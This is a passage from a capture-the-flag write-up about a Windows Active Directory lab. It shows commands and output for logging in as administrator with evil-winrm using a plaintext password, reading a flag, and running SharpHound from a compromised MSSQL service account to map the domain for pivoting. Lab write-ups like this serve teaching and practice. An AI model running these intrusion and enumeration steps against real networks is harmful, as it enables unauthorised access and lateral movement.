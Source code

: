 

So I'll use that in `/etc/hosts`:



    dead:babe::1001 compatibility



Now connect:



    root@kali# evil-winrm -i compatibility -u administrator -p 'EverybodyWantsToWorkAtP.O.O.'

    Evil-WinRM shell v2.3

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    compatibility\administrator



The fourth flag is on the desktop:



    *Evil-WinRM* PS C:\Users\Administrator\desktop> cat flag.txt
    POO{ff87c4fe************************}



## p00ned

### SharpHound

Given this is an active directory environment, and I'm looking to pivot,
I'll want to run Bloodhound. I uploaded it using the WinRM access, but I
need to run it from a domain account. Luckily, I have code execution as
the service accounts in MSSQL, which are domain accounts, so I can run
it from there.

*Note: If you read in [Beyond
Root](#beyond-root---long-way-to-administrator-shell) about the extra
long route I took to get a shell, one thing I did was use a Python
script that connects to MSSQL and simulates an interactive shell. That
shell will show up here when I run things from there.*

I'll run SharpHound from the MSSQL shell:



    C:\Users\MSSQL$~1\AppData\Local\Temp>.\sh.exe
    Initializing BloodHound at 1:18 PM on 2/18/2019
    Resolved Collection Methods to Group, LocalGroup, Session, Trusts
    Starting Enumeration for intranet.poo
    Status: 61 objects enumerated (+61 4.692307/s --- Using 31 MB RAM )
    Finished enumeration for intranet.poo in 00:00:13.0647650
    0 hosts failed ping. 0 hosts timedout.

    Compressing data to .\20190218131831_BloodHound.zip.
    You can upload this file directly to the UI.
    Finished compressing files!
